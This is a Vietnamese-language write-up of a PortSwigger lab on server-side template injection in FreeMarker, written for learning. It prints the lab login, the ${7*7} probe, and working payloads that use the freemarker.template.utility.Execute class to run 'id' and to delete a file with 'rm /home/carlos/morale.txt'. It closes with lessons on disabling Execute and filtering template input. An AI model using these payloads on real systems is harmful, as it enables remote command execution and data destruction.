




# Write-up: Server-side template injection using documentation

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine FreeMarker, nơi trường template không được lọc, cho phép thực thi mã Java tùy ý. Bằng cách sử dụng class `freemarker.template.utility.Execute` từ tài liệu FreeMarker, kẻ tấn công thực thi lệnh `id` để xác nhận SSTI và xóa file `/home/carlos/morale.txt` để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong FreeMarker qua chức năng chỉnh sửa template, xác nhận khả năng thực thi mã với `${7*7}`, sử dụng class `Execute` để thực thi lệnh `id`, và xóa file `/home/carlos/morale.txt` để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Khai thác FreeMarker**  
- Đăng nhập với tài khoản `content-manager:C0nt3ntM4n4g3r`:  

- Truy cập sản phẩm bất kỳ và chọn chức năng chỉnh sửa template tại:  
    ```
    GET /product/template?productId=1 HTTP/2
    Host: 0an9021v22wx3456r0st201200uv00sr.web-security-academy.net
    Cookie: session=...
    ```  
- Quan sát thấy ứng dụng sử dụng cú pháp FreeMarker `${product.name}` để render thông tin sản phẩm:  
     
- Thử payload SSTI cơ bản trong trường template:  
    ```
    ${7*7}
    ```  
  - Kết quả: Server trả về giá trị `49`, xác nhận lỗ hổng **SSTI** trong FreeMarker:  
           

- Thử thay `${product.name}` bằng `${product.getClass()}`:  
  ```
  ${product.getClass()}
  ```  
- Kết quả: Server trả về thông tin xác nhận FreeMarker trong Java:  
      

- Đọc tài liệu FreeMarker, phát hiện cú pháp `.new()` cho phép khởi tạo instance của bất kỳ class nào implement `TemplateModel`. Tìm thấy class `freemarker.template.utility.Execute` hỗ trợ thực thi lệnh hệ thống.  
    
- Sử dụng payload để thực thi lệnh `id`:  
    ```
    ${"freemarker.template.utility.Execute"?new()("id")}
    ```  
- Kết quả: Server trả về `carlos`, xác nhận payload SSTI thành công, cho phép thực thi lệnh hệ thống:  
      

2. **Thực hiện xóa tệp morale.txt**  
- Sử dụng payload FreeMarker để thực thi lệnh `rm /home/carlos/morale.txt`:  
    ```
    ${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
    ```  
- Kết quả: File `/home/carlos/morale.txt` bị xóa, lab xác nhận hoàn thành:  
    

- **Ý tưởng payload**:  
    - Sử dụng SSTI trong FreeMarker với class `freemarker.template.utility.Execute` để thực thi lệnh hệ thống, xóa file `/home/carlos/morale.txt`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong FreeMarker, sử dụng class `freemarker.template.utility.Execute` để thực thi lệnh hệ thống như `id` và `rm`.  
- Nhận thức tầm quan trọng của việc vô hiệu hóa các class nhạy cảm như `Execute` trong FreeMarker, lọc đầu vào người dùng trong template engine, và hạn chế quyền thực thi lệnh hệ thống trong môi trường production.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** trong FreeMarker, nhấn mạnh tầm quan trọng của việc cấu hình an toàn template engine và lọc đầu vào để ngăn chặn thực thi lệnh hệ thống trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*